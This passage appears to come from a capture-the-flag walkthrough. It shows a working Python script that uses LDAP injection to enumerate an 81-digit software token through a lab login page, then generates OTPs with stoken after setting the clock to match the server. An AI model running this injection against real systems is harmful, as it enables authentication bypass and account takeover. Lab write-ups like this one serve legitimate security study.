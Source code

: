 ### 10. Token Brute-Forcing with Python Script
- **Technique**: Developed a Python script to brute-force the 81-digit token stored in the `pager` attribute.
- **Steps**:
  - Created `brute.py` to automate LDAP injection for token enumeration.
  - Script logic:
    - Iterated through digits (0-9) to build the token.
    - Constructed LDAP query: `LDAPuser)(pager=tokenFUZZ*` (e.g., `LDAPuser)(pager=28FUZZ*`).
    - Sent POST requests to `http://[TARGET-IP]/login.php` with Burp proxy.
    - Checked for "cannot login" response to indicate a valid token prefix.
    - Included sleep to avoid brute-force bans.
  - Output token after 81 iterations (noted a trailing incorrect character).
- **Script Content**:
```python
import requests
import sys
from time import sleep
from string import digits

url = "http://[TARGET-IP]/login.php"
proxy = {"http": "http://localhost:8080"}
attribute = "pager"
token = ""
loop = 1

while loop:
    for digit in digits:
        query = f"LDAPuser)({attribute}={token}{digit}*"
        data = {"inputUsername": query, "inputOTP": "1234"}
        response = requests.post(url, data=data, proxies=proxy)
        sys.stdout.write(f"\rtoken: {token}{digit}")
        sys.stdout.flush()
        sleep(1)
        if "cannot login" in response.text:
            token = token + digit
            print(f"\nsuccess: {token}")
            sleep(2)
            break
        elif digit == "9":
            loop = 0
            break
```
- **Result**: Obtained an 81-digit token (82 characters with an incorrect trailing character).
- **Purpose**: Retrieve the software token required for authentication.

### 11. Time Synchronization for Token Validation
- **Technique**: Used `stoken` to generate OTP and synchronized system time to match the server.
- **Steps**:
  - Installed `stoken` and ran: `stoken --token=<81-digit-token>`.
  - Noted requirement for a 4-8 digit PIN; used `0000`.
  - Identified server time in response headers (e.g., 09:55 GMT).
  - Disabled NTP: `timedatectl set-ntp 0`.
  - Set local time: `date -s 1757`.
  - Generated OTP and tested login with `LDAPuser` and OTP, resulting in a command execution interface.
- **Purpose**: Generate a valid OTP by aligning client and server time.
